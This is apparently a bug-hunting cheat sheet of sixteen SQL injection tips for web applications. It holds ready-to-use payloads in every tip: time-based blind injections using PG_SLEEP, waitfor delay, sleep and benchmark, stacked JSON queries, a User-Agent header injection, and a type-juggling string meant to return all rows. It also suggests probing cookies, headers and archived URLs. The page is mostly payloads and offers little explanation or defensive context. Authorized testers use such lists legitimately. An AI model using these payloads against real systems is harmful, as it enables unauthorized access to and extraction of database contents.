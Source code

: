 <mark style="background: #FF5582A6;">Tip 1:-</mark>
-->`https://example.com/dnt?level=stansard&region=gcp-us-central` --> here region parameter is vulnerable to SQLI.

<mark style="background: #FF5582A6;">Tip 2:-</mark>
-> Look for id parameter like {"id:"test12","password":"hellowordl"} also password parameter also

<mark style="background: #FF5582A6;">Tip 3:-</mark>
In mysql database --> `[https://example.com/employee/search/?name={keyword_here}]` if we give `0` number zero then it can give all the data. And query except the string so we use `?name='x'+0+'x'` which will be interepted as number zero due to data type differences.

<mark style="background: #FF5582A6;">Tip 4:-</mark>
Try Sqli on HTTP headers that stored on server like Cookies, UserAgent, maybe Referer, Origin and other custom headers.

<mark style="background: #FF5582A6;">Tip 5:-</mark>
-> inject blind sqli on login page like `admin');SELECT PG_SLEEP(5)--` or `?attachment_id=123" AND 4564=(SELECT 4564 FROM PG_SLEEP(11)) OR "04586"="4586--`

<mark style="background: #FF5582A6;">Tip 6:-</mark>
-> get urls and parameters from waybackmachine and test for sqli if `'` and `"` doesnt give error, also try for other payloads.

<mark style="background: #FF5582A6;">Tip 7:-</mark>
Time Based JSON Stacked Query SQL Injection --> `{"param":"AbcXYZ'; waitfor delay '0:0:6' --","key":"ABC1234"}`

<mark style="background: #FF5582A6;">Tip 8:-</mark>
sales_ref=[123] --> sales-ref[''''123]

<mark style="background: #FF5582A6;">Tip 9:-</mark>
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'

<mark style="background: #FF5582A6;">Tip 10:-</mark>
check sqli in -> `/id/23h23h23h` uuid part

<mark style="background: #FF5582A6;">Tip 11:-</mark>
payload ->  benchmark(1000000000,1-1)

<mark style="background: #FF5582A6;">Tip 12:-</mark>
-> if the input id is integer then we dont need `'` or `"` to terminate the sql query -> we can simply do like this -> `id=12-sleep(5)` or `id=12-benchmark(100000000000,1-1)`

<mark style="background: #FF5582A6;">Tip 13:-</mark>
`&topsort=followers+or+sleep(0.000000001)`

<mark style="background: #FF5582A6;">Tip 14:-</mark>
-> `?search=%0a` or `?search=0` or different charatcer which will throw an error 

<mark style="background: #FF5582A6;">Tip 15:-</mark>
-> `132'; waitfor delay '0:0:6' -- `

Tip 16:-
-> (SELECT(0)FROM(SELECT(SLEEP(10)))a)